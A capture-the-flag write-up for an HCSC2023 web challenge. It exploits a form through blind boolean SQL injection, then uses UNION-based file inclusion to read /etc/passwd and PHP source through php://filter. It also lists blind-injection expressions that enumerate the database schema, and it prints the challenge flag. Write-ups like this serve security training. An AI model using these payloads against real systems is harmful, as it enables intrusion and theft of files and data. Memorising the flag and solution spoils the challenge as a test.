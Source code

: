 # Checking the site

Visiting the site reveals the following form. Similar to the Diana #1 challenge.

![](screenshots/1.png)

The 4th image with the flag disappeared.

# SQLi

Notice that the form also vulnerable to SQL injects. Just enter a `"`, like below. The former gives the Warner Bros letter, the latter not.

```
%' AND 1=1 #
%' AND 1=2 #
```

The images can be gathered 1 by 1.

```
' LIMIT 1 OFFSET 0 #
' LIMIT 1 OFFSET 1 #
' LIMIT 1 OFFSET 1 #
```

Only affect the outcome whether it has an image output or not can be affected. This is a blind boolean based inject in the form of `' AND expression`, where the expression can be controlled.

Probing the number of columns in the query turns out to be 1. 

# LFI
Further experimentation reveals it is including the filename that was returned from the query. The `X` is there to prevent the other images.
```
X' UNION SELECT "/etc/passwd" #
```

![](screenshots/2.png)

The php filters can be utilized to read the sourcecode.

```
X' UNION SELECT "php://filter/convert.base64-encode/resource=index.php" #
X' UNION SELECT "php://filter/convert.base64-encode/resource=connect.php" #
```

Reading the `index.php` reveals the existence of `connect.php`. This has the flag.

![](screenshots/3.png)

# Flag
HCSC2023{M4gis_h0l_m4sh0l_l4nne_4_fl4g}

# Without guessing LFI
If we failed to stumble upon the LFI part, the database can be read. There is a length limitation on the input, which prevents [sqlmap](https://sqlmap.org/) to work, but it can be done manually similarly to it's attempts.

For example the payload sent in `data = {"felado": "' AND " + expr +";#"}`, where `expr` is the boolean expression, `char` is the character list we go 1 by 1, and indices `i` and `l`.
```
version() LIKE '{ver}{char}%'
  -- mariadb version 10.6.12
Database() LIKE '{db}{char}%
  -- diana is the current database
MID((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1),{l},1)='{char}'
  -- diana, test databases
MID((SELECT TABLE_SCHEMA FROM information_schema.TABLES LIMIT {i},1),{l},1)='{char}'
  -- databases at tables so their name can be found by pairing at offset
MID((SELECT TABLE_NAME FROM information_schema.TABLES LIMIT {i},1),{l},1)='{char}'
  -- letters, the table name, paired with previous
MID((SELECT TABLE_NAME FROM information_schema.COLUMNS LIMIT {i},1),{l},1)='{char}'
  -- also table name for columns, now this is used for pairing at offset
  -- exiting from the internal loop when the first letter is not "l" can speed things up greatly
MID((SELECT COLUMN_NAME FROM information_schema.COLUMNS LIMIT {i},1),{l},1)='{char}'
  -- id, sender, filename, paired with previous
ORD(MID((SELECT filename FROM letters LIMIT {i},1),{l},1))={charcode}
  -- the filename column, rest of the columns are similar
```
| id | sender | filename |
|---|---|---|
| 1 | Warner Bros. | 134357887.php |
| 1 | Youtube | 275434893.php |
| 1 | LiveDiana | 378655234.php |

See python files for more details. [run3.py](workdir/run3.py)

Because of the `php` extension, it should be obvious now that the files are included.